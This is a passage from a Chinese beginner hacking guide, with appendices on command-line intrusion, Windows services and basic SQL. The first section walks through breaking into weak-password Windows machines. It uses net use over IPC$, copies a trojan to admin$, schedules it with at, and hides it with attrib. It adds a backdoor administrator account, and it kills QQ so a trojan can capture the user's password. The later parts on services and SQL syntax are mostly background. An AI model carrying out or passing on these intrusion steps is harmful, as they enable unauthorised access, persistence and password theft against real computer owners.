早期的 IPC$ 入侵，在还没有出现像 psexec.exe 等辅助工具的时候，人们往往只靠系统自带的命令就可以完成入侵。其中最主要的就是 NET 命令。有些时候，扫描到一台 Windows 2000 的弱口令机器，我们可以向它进行 IPC$ 连接，依次执行以下命令：net use \\192.168.1.123\ipc$ “123” /user:administrator，其中 administrator 是对方的管理员账号，123 是密码。如果没有密码的话，可以直接：net use \\192.168.1.123\ipc$ /user:administrator，这样就建立好了 IPC$ 连接。现在我们把一个木马 muma.exe 复制到对方的机器上，使用 COPY 命令 copy muma.exe \\192.168.1.123\admin$，这样就把本地的 muma.exe 复制到 192.168.1.123 的 winnt 目录下了。

#### AT 命令

这个命令是用来计划任务的，指定某个时间运行某个程序，我们首先要使用 net time \\192.168.1.123 查看对方机器上的时间：


然后我们使用 at \\192.168.1.123 08:55 muma.exe，这样我们就命令了 192.168.1.123 在 8:55 执行 muma.exe。  
输入 at \\192.168.1.123 查看有没有添加计划成功：

| 状态 ID | 日期 | 时间 | 命令行 |
|---|---|---|---|
| 1 | 今天 | 8:55 | muma.exe |

如果正常的话，一会儿它就会在后台执行 muma.exe。接下来连接木马，大家自己翻看第三章的内容。有的时候，我们得到了一个 shell，也就是连接上了肉鸡。在 shell 中我们可以执行以下命令：DIR c:\，查看 C 盘下有哪些东西，也可以不加参数，直接输入 dir 会看到当前目录下所有的文件和文件夹，大家可以在本机上测试一下。有的时候我们会看到很多有用的信息，最夸张的一次，我看到了管理员记录密码的一个文件：password.txt，在命令行下显示这个文件的内容：type password.txt。

#### ECHO 命令

ECHO 用来显示一个字符串，我们可以配合“>”或者“>>”这两个符号来写进文件里。比如 ECHO“我是宇宙超级无敌黑客阿剑剑>"C:\Documents and Settings\Administrator\桌面\你被入侵了.txt"”，这样对方的桌面上就多了一个“你被入侵了.txt”的文件，里面的内容就是“我是宇宙超级无敌黑客阿剑剑”。

如果接着输入 `ECHO 2005年11月1日>>"C:\Documents and Settings\Administrator\桌面\你被入侵了.txt"`，那么就会在“你被入侵了.txt”里增加一行，内容为“2005年11月1日”。“>”和“>>”一个是覆盖原来的文件，一个是追加，大家自己在本地测试看看。

#### DEL 命令

如果你觉得在对方的机器里留下了太多东西，想删掉的话，就要用到这个命令了。语法是：“DEL 文件名”，比如 `del muma.exe`。有的时候，别人的文件加了只读属性，直接使用 `del muma.exe` 删不掉，我们就再加一个“/f”参数，也就是 `del muma.exe /f`，这样就强制删除掉了。

#### Attrib 命令

`attrib +s +h +r muma.exe`，这样就给我们的 muma.exe 加上了系统、隐藏与只读属性。这样一般人就看不到我们的 muma.exe 了。如果要取消也容易：`attrib -s -h -r muma.exe`。

#### 添加管理员账号

首先使用 `net user` 查看有哪些用户。像图 8.1 中就显示出了本地的账户，如果要添加一个用户，可以使用“`net user <用户名> [密码] /add`”。比如 `net user hacker aijianjian /add`，就增加了一个用户名为 hacker，密码为 aijianjian 的用户。但是这个用户只拥有普通权限，我们要把它加到管理员组中才能使它拥有最高权限：`net localgroup administrators hacker /add`。

有时候发现有别人加了一个账号：`admin$`，这种用户名带有“$”的，在命令行下使用 `net user` 是看不到的，肯定是别的同行干的！`net user admin$ !@#$asdfas$@as`，这样它的密码就变成了“!@#$asdfas$@as”，嘿嘿，下次我让你登录哭去吧！或者干脆更狠一点，把这个账号删掉：`net user admin$ /del`。

#### 查 / 杀进程

现在 XP 和 2003 的用户与肉鸡越来越多了，得到它们的 shell 之后，想知道管理员正坐在电脑面前做什么很简单，输入命令：`tasklist`，就可以看到当前所有的进程名了！

| 图像名 | PID | 会话名 | 会话# | 内存使用 |
|---|---:|---|---:|---:|
| System Idle Process | 0 | Console | 0 | 16 K |
| System | 4 | Console | 0 | 300 K |
| smss.exe | 492 | Console | 0 | 892 K |

要是看到有 `QQ.exe`，嘿嘿，给它装个 QQ 木马，然后 `taskkill /f /im qq.exe`，它的 QQ 就会自动关闭了！等到他马上重新登录了 QQ，而我们的信箱里也就躺下了一封 QQ 密码的信件了！我只是好奇而已，才不会改他的密码呢，对吧，呵呵！

好了，CMD 下的命令就介绍这么多了，想知道更多吗？找百度和 X 档案吧！

## 附录二 系统服务

我们有不少木马都是以替换或者是添加一个服务来达到启动自身的目的，所以熟悉服务对我们安装木马或者是查杀木马都有很重要的意义。

在 Windows 2000/XP/2003 系统中，服务是一种应用程序类型，它在后台运行。服务应用程序通常可以在本地和通过网络为用户提供一些功能，例如客户端/服务器应用程序、Web 服务器、数据库服务器以及其他基于服务器的应用程序。

对系统服务的操作，我们可以通过“服务管理控制台”来实现。以管理员或 Administrators 组成员身份登录，单击“开始→运行”菜单项，在出现的对话框中键入“Services.msc”并回车，即可打开“服务管理控制台”；你也可以单击“开始→控制面板→性能和维护→管理工具→服务”选项来启动该控制台，如图 8.2。


图 8.2

在服务控制台中，双击任意一个服务，就可以打开该服务的属性对话框。在这里，我们可以对服务进行配置、管理操作，通过更改服务的启动类型来设置满足自己需要的启动、关闭或禁用服务，如图 8.3。


图 8.3

在“常规”选项中，“服务名称”是指服务的“简称”，并且也是在注册表中显示的名称；“显示名称”是指在服务配置界面中每项服务显示的名称；“描述”是为该服务作的简单解释；“可执行文件的路径”即是该服务对应的可执行文件的具体位置；“启动类型”是整个服务配置的核心。对于任意一个服务，通常都有 3 种启动类型，即自动、手动和已禁用。只要从下拉菜单中选择，就可以更改服务的启动类型。“服务状态”是指服务的现在状态是启动还是停止，通常，我们可以利用下面的“启动”“停止”“暂停”“恢复”按钮来改变服务的状态。

下面让我们来看看 3 种不同类型的启动状态。

- **自动**：此服务随着系统启动时启动，它将延长启动所需要的时间。有些服务是必须设置为自动的，如“Remote Procedure Call(RPC)”。由于依存关系或其他影响，其他的一些服务也必须设置为自动，这样的服务最好不要去更改它，否则系统无法正常运行。
- **手动**：如果一个服务被设置为手动，那么可以在需要时再运行它。这样可以节省大量的系统资源，加快系统启动。
- **已禁用**：此类服务不能再运行，这个设置一般在提高系统安全性时使用。如果怀疑一个陌生的服务会给你的系统带来安全上的隐患，可以先尝试停止它，看看系统是否能正常运行。如果一切正常，那么就可以直接禁用它了。如果以后需要这个服务，在启动它之前，必须先将启动类型设置为自动或手动。

单击“依存关系”选项，在这里我们可以看到：顶端列表中指出运行选定服务所需的其他服务，底端列表指出了需要运行选定服务才能正确运行的服务。它说明了一些服务并不能单独运行，必须依靠其他服务。在停止或禁用一个服务之前，一定要看看这个服务的依存关系；如果有其他需要启动的服务是依靠这个服务，就不能将其停止。在停止或禁用一个服务前，清楚了解该服务的依存关系是必不可少的步骤。如图 8.4。


图 8.4

## 附录三 SQL 基本语法速查

在讲解注入攻击的时候，我们只讲了工具的使用，对于一些想了解原理的朋友，可能会需要了解一些 SQL 的基本知识。

SQL 是结构化查询语句的缩写。市面上流行着不少数据库，比如微软的 Access、MSSQL，或者是 PHP 的最爱 MYSQL 以及甲骨文的 Oracle 等。但是它们在操作数据的时候，大多遵循一个标准，这就是 SQL 语句。

我们在暴库的时候会知道，下载了一个 mdb 的 Access 数据库的时候，会看到里面有很多的表，如图 8.5。


图 8.5

双击打开其中任意一张表，如图 8.6。


图 8.6

每一行叫做一条记录，而每一列称为该记录的某种属性。比如一个用户的信息，它就有用户名、密码、Email 等属性。SQL 语句专门用来查询或者是修改这里的数据的。

我们以图 8.7 为例，查询语句 SELECT：


图 8.7

## 黑客零起步

```
语法：SELECT [列名],[列名2] FROM [表名] WHERE 限制条件
例：SELECT UserName,UserPassword FROM [user] WHERE UserID=6;
```

这就是一条最常见的查询语句，这条语句的意义是从图 8.7 的表中把 UserID 为 6 的用户的用户名（UserName）与用户密码（UserPassword）查询出来。得到的结果自然是“admin 123456789”。

WHERE 后面跟的是条件，这个条件我们可以任意写，比如 SELECT UserName,UserPassword FROM [user] WHERE UserName='admin'，效果与上面是一样的。不过，这里限制了用户名为 admin，那么就要用单引号把 admin 引起来以表示这是一个字符串。

```
如果有 SELECT * FROM [user] WHERE UserName='admin' and UserPassword='123456789'，则是查询是否存在一条记录，用户名为 admin，而密码为 123456789，*号表示把所有属性都列出来，它查询的结果是“1 admin ldian333@163.com 45 123456789”。
```

```
更新语句：UPDATE [表名] SET [列]='值' WHERE [限制条件]
例：UPDATE [user] SET UserPassword='aijianjian' WHERE UserName='admin'
```

把 admin 用户的密码改为 aijianjian，如果不加 WHERE 限制条件，那么整张表的 UserPassword 字段会全部变成 aijianjian。

```
删除语句：DELETE FROM [表名] WHERE [限制条件]
例：DELETE FROM [user] WHERE UserID=6
```

把 UserID 为 6 的那一条记录删掉。

这里提到的表名都用 [] 符号引起来了，这是一种习惯，避免在表名与 SQL 关键字相同时出错。好好理解上面的 SQL 语句，看看 SQL 注入的相关资料，就会很容易理解 SQL 注入是一种什么样的漏洞。